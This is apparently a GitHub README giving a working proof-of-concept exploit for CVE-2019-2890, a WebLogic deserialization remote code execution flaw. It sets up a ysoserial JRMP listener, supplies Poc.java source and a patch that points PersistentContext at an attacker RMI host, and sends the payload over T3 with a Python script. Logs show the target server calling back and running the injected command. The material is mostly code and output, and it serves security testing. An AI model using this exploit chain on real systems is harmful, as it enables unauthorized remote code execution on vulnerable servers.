

# CVE-2019-2890 WebLogic 反序列化RCE漏洞


## 0x01 Download SerializedSystemIni.dat

` /root/Oracle/Middleware/user_projects/domains/base_domain/security`

```
root@159475444bab:~/Oracle/Middleware/user_projects/domains/base_domain/security# 

md5sum SerializedSystemIni.dat

a50f1784f1f5b12cccb8b231d6b36223  SerializedSystemIni.dat

```
## 0x02 create security


```
ale@Pentest  ~/Pentester/CVE-2019-2890/security  md5sum SerializedSystemIni.dat

a50f1784f1f5b12cccb8b231d6b36223  SerializedSystemIni.dat
```
## 0x03 Run Java Rmi

`java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8000 Jdk7u21 "touch /tmp/cve-2019-2890"`


## 0x04 Run Poc.java Get Poc.ser

#### Poc.java
```
package weblogic.wsee.jaxws.persistence;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import weblogic.kernel.KernelStatus;

import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Proxy;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

public class Poc  {
        public static Registry getObject(String command) throws Exception {
            int sep = command.indexOf(58);
            String host;
            int port;
            if (sep < 0) {
                port = (new Random()).nextInt(65535);
                host = command;
            } else {
                host = command.substring(0, sep);
                port = Integer.valueOf(command.substring(sep + 1));
            }

            ObjID id = new ObjID((new Random()).nextInt());
            TCPEndpoint te = new TCPEndpoint(host, port);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
            RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
            Registry proxy = (Registry)Proxy.newProxyInstance(ysoserial.payloads.JRMPClient.class.getClassLoader(), new Class[]{Registry.class}, obj);
            return proxy;
        }
        public static void main(String[] args) throws IOException{
            System.setProperty("com.bea.core.internal.client","true");
            //KernelStatus.setIsServer(true);
            PersistentContext pc = new PersistentContext(null,null,null,null,null);
            FileOutputStream fos = new FileOutputStream("poc.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fos);
            objectOutputStream.writeObject(pc);
            objectOutputStream.close();
        }
    }

```

#### set rmi addresss in PersistentContext.java

```
    private void writeSubject(ObjectOutputStream var1) throws IOException {
        ByteArrayOutputStream var2 = new ByteArrayOutputStream();
        ObjectOutputStream var3 = new ObjectOutputStream(var2);

        //if (SubjectManager.getSubjectManager().isKernelIdentity(this._subject)) {
        //    AuthenticatedSubject var4 = (AuthenticatedSubject)SubjectManager.getSubjectManager().getAnonymousSubject();
        //    var3.writeObject(var4);
        //} else {
        //    var3.writeObject(this._subject);
        //}
        try {
            var3.writeObject(Poc.getObject("10.10.20.166:8000"));
        } catch (Exception e) {
            e.printStackTrace();
        }
```

## 0x05 Send Exp

```
ale@Pentest  ~/Pentester/CVE-2019-2890  python weblogic.py 10.10.20.166 7001 poc.ser  

[+] Connecting to 10.10.20.166 port 7001
sending "t3 12.2.1
AS:255
HL:19
MS:10000000
PU:t3://us-l-breens:7001

"
received "HELO"
[+] Sending payload...
received ":10.3.6.0.false
AS:2048
HL:19

"
```
#### rmi connect
```
root@kali:~# java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 8000 Jdk7u21 "touch /tmp/cve-2019-2890"
* Opening JRMP listener on 8000
Have connection from /172.18.0.2:53544
Reading message...
Is DGC call for [[0:0:0, 274645388], [0:0:0, 1496404241]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
```

#### Exp Success

```
root@159475444bab:~/Oracle/Middleware/user_projects/domains/base_domain/security# ls /tmp
root@159475444bab:~/Oracle/Middleware/user_projects/domains/base_domain/security# ls /tmp
cve-2019-2890
root@159475444bab:~/Oracle/Middleware/user_projects/domains/base_domain/security#
```

## 参考链接

https://github.com/SukaraLin/CVE-2019-2890
